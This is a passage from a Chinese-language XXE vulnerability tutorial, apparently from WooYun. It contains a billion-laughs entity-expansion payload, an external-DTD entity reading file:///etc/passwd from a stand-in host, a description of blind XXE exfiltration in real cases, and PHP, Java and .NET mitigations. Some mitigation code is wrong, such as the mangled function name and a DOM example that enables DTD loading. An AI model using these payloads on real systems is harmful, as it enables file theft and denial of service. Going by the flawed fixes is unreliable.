 	    <!ENTITY wooyun9 "&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;&wooyun8;">
	]>
	 
	<wooyun>&wooyun9;</wooyun>
这个XML在定义实体是不断嵌套调用，如解析时未对大小进行限制，则可能会导致内存大量被消耗，从而实现拒绝服务攻击。

此外，还可以利用支持的协议构造出很多相关的攻击，如探测内网信息（如检测服务等）等。

**4、实际案例**

---
gainover：WooYun-2014-59783：[百度某功能XML实体注入（二)](http://wooyun.org/bugs/wooyun-2014-059783)

由于SVG本身是基于XML的，该漏洞在SVG转成JPG图片时的XML解析过程中厂商仅直接过滤了ENTITY关键字，但是由于DTD本身就支持调用外部的DTD文件，因此通过调用`<!DOCTYPE svg SYSTEM “http://example.com/xxe.dtd”>`的方式引入外部的DTD文件即成功避开了对ENTITY关键字的过滤，其中xxe.dtd的内容如下：

	<!ENTITY test SYSTEM "file:///etc/passwd">
iv4n：WooYun-2014-74069：[鲜果网RSS导入Blind XXE漏洞](http://www.wooyun.org/bugs/wooyun-2014-074069)

该漏洞的过程是利用参数实体实现了XXE盲攻击，在读取本地文件后，将读出本地文件的内容作为URL中的参数向其指定服务器发起请求，在指定服务器的Apache日志中即可看到读出的文件内容。

五道口杀气：WooYun-2014-59911：[从开源中国的某XXE漏洞到主站shell](http://www.wooyun.org/bugs/wooyun-2014-074069)

该漏洞在格式化xml时进行了解析且没有对外部实体进行限制，所以产生服务器上任意文件被读取的问题，从而导致主站的ssh用户名和密码泄露，被成功getshell。

**5、修复方案**

---
在默认情况下关闭内联DTD解析（Inline DTD parsing）、外部实体、实体，使用白名单来控制允许实用的协议。

了解所使用的XML解析器是否默认解析外部实体，如果默认解析应根据实际情况进行关闭或者限制。下面给出了一些常见的关闭方法：

PHP：

对于使用SimpleXML解析XML的方法可在加载实体之前添加`libxmldisableentity_loader(true);`语句以进制解析外部实体。

对于使用DOM解析XML的方法可在加载实体之前添加`libxmldisableentity_loader(true);`语句或者使用：

	<?php
	// with the DOM functionality:
	$dom = new DOMDocument();
	$dom->loadXML($badXml,LIBXML_DTDLOAD|LIBXML_DTDATTR);
	?>
对于XMLReader解析XML的方法可使用：

	<?php
	// with the XMLReader functionality:
	$doc = XMLReader::xml($badXml,'UTF-8',LIBXML_NONET);
	?>
Java：
	
	DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	.Net：

对于使用System.Xml.XmlReader解析XML的方法：

默认情况下，外部资源使用没有用户凭据的XmlUrlResolver对象进行解析。这意味着在默认情况下，可以访问任何不需要凭据的位置。通过执行下列操作之一，可以进一步保证安全：
